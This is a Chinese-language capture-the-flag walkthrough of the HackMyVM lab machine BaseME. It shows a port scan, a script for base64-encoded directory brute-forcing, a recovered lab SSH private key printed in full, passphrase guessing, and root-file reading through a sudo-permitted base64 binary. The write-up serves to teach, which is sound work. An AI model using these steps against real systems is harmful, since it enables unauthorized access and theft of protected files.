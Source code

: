 ```yaml
---
{"dg-publish":true,"tags":["HMV","base64"],"难度":"⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/8.BaseME/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.854+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/8.BaseME#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/8.BaseME#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/8.BaseME#3. BASE64编码目录爆破\|3. BASE64编码目录爆破]]
- [[24-渗透/HMV/8.BaseME#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=BaseME
```


```
作者：sml
```

```
难度：⭐️⭐️
```


```
知识点：base64编码扫描、linuxbase64编码自带换行符、
```
## 2. 信息收集

端口扫描

```Bash
──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.10  -p 1-65535 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 21:25 CST
Nmap scan report for 192.168.9.10
Host is up (0.00038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:7C:3B:62 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.001.png)

上面是一串base64编码的字符串

解码得到

```Bash
ALL, absolutely ALL that you need is in BASE64.
Including the password that you need :)
Remember, BASE64 has the answer to all your questions.
-lucas
```
提示我们我们想要的都可以通过base64获取

尝试爆破目录发现没有结果。猜测可能是需要base64加密

## 3. BASE64编码目录爆破

直接对字典进行逐行base64加密

```Bash
import base64

def encode\_file\_line\_by\_line(*input\_file*, *output\_file*):
    with open(*input\_file*, 'r', *encoding*='utf-8') as infile, open(*output\_file*, 'w', *encoding*='utf-8') as outfile:
        for line in infile:
            *# 直接对整行（包括换行符）进行 Base64 编码*
            encoded\_line = base64.b64encode(line.encode()).decode()
            *# 将编码后的内容写入输出文件，并添加换行符*
            outfile.write(encoded\_line + '\n')

*# 使用示例*
input\_file = 'dicc.txt'  *# 输入文件路径*
output\_file = 'base64\_dicc.txt'  *# 输出文件路径*
encode\_file\_line\_by\_line(input\_file, output\_file)
```
然后爆破

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
/aWRfcnNhCg==
/cm9ib3RzLnR4dAo=
```
获取了私钥

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.002.png)

```Bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBTxe8YUL
BtzfftAdPgp8YZAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCZCXvEPnO1
cbhxqctBEcBDZjqrFfolwVKmpBgY07M3CK7pO10UgBsLyYwAzJEw4e6YgPNSyCDWFaNTKG
07jgcgrggre8ePCMNFBCAGaYHmLrFIsKDCLI4NE54t58IUHeXCZz72xTobL/ptLk26RBnh
7bHG1JjGlxOkO6m+1oFNLtNuD2QPl8sbZtEzX4S9nNZ/dpyRpMfmB73rN3yyIylevVDEyv
f7CZ7oRO46uDgFPy5VzkndCeJF2YtZBXf5gjc2fajMXvq+b8ol8RZZ6jHXAhiblBXwpAm4
vLYfxzI27BZFnoteBnbdzwSL5apBF5gYWJAHKj/J6MhDj1GKAFc1AAAD0N9UDTcUxwMt5X
YFIZK8ieBL0NOuwocdgbUuktC21SdnSy6ocW3imM+3mzWjPdoBK/Ho339uPmBWI5sbMrpK
xkZMnl+rcTbgz4swv8gNuKhUc7wTgtrNX+PNMdIALNpsxYLt/l56GK8R4J8fLIU5+MojRs
+1NrYs8J4rnO1qWNoJRZoDlAaYqBV95cXoAEkwUHVustfgxUtrYKp+YPFIgx8okMjJgnbi
NNW3TzxluNi5oUhalH2DJ2khKDGQUi9ROFcsEXeJXt3lgpZZt1hrQDA1o8jTXeS4+dW7nZ
zjf3p0M77b/NvcZE+oXYQ1g5Xp1QSOSbj+tlmw54L7Eqb1UhZgnQ7ZsKCoaY9SuAcqm3E0
IJh+I+Zv1egSMS/DOHIxO3psQkciLjkpa+GtwQMl1ZAJHQaB6q70JJcBCfVsykdY52LKDI
pxZYpLZmyDx8TTaA8JOmvGpfNZkMU4I0i5/ZT65SRFJ1NlBCNwcwtOl9k4PW5LVxNsGRCJ
MJr8k5Ac0CX03fXESpmsUUVS+/Dj/hntHw89dO8HcqqIUEpeEbfTWLvax0CiSh3KjSceJp
+8gUyDGvCkcyVneUQjmmrRswRhTNxxKRBZsekGwHpo8hDYbUEFZqzzLAQbBIAdrl1tt7mV
tVBrmpM6CwJdzYEl21FaK8jvdyCwPr5HUgtuxrSpLvndcnwPaxJWGi4P471DDZeRYDGcWh
i6bICrLQgeJlHaEUmrQC5Rdv03zwI9U8DXUZ/OHb40PL8MXqBtU/b6CEU9JuzJpBrKZ+k+
tSn7hr8hppT2tUSxDvC+USMmw/WDfakjfHpoNwh7Pt5i0cwwpkXFQxJPvR0bLxvXZn+3xw
N7bw45FhBZCsHCAbV2+hVsP0lyxCQOj7yGkBja87S1e0q6WZjjB4SprenHkO7tg5Q0HsuM
Aif/02HHzWG+CR/IGlFsNtq1vylt2x+Y/091vCkROBDawjHz/8ogy2Fzg8JYTeoLkHwDGQ
O+TowA10RATek6ZEIxh6SmtDG/V5zeWCuEmK4sRT3q1FSvpB1/H+FxsGCoPIg8FzciGCh2
TLuskcXiagns9N1RLOnlHhiZd8RZA0Zg7oZIaBvaZnhZYGycpAJpWKebjrtokLYuMfXRLl
3/SAeUl72EA3m1DInxsPguFuk00roMc77N6erY7tjOZLVYPoSiygDR1A7f3zYz+0iFI4rL
ND8ikgmQvF6hrwwJBrp/0xKEaMTCKLvyyZ3eDSdBDPrkThhFwrPpI6+Ex8RvcWI6bTJAWJ
LdmmRXUS/DtO+69/aidvxGAYob+1M=
-----END OPENSSH PRIVATE KEY-----
```
ssh连上去

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.003.png)

提示需要私钥密码

猜测就是开始下面那句话的Base64编码

```Bash
iloveyou
youloveyou
shelovesyou
helovesyou
weloveyou
theyhatesme
```
这里直接逐行Base64加密是不行的，后面要加上一个回车才是对的（因为他这里面的编码都是linux里面进行的。linux默认对字符串进行base64编码后面是带有换行符的）

第一个加密就是对的

```Bash
iloveyou 》aWxvdmV5b3UK
```
然后就能连接上来了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/8.BaseME.004.png)

## 4. 提权

```Bash
lucas@baseme:~$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/mount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
lucas@baseme:~$ sudo -l
Matching Defaults entries for lucas on baseme:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucas may run the following commands on baseme:
    (ALL) NOPASSWD: /usr/bin/base64
lucas@baseme:~$ 
```


```Bash
sudo base64 "/root/root.txt" |base64 --decode
```
这里应该读取私钥然后连接

我这里直接偷懒读取flag了


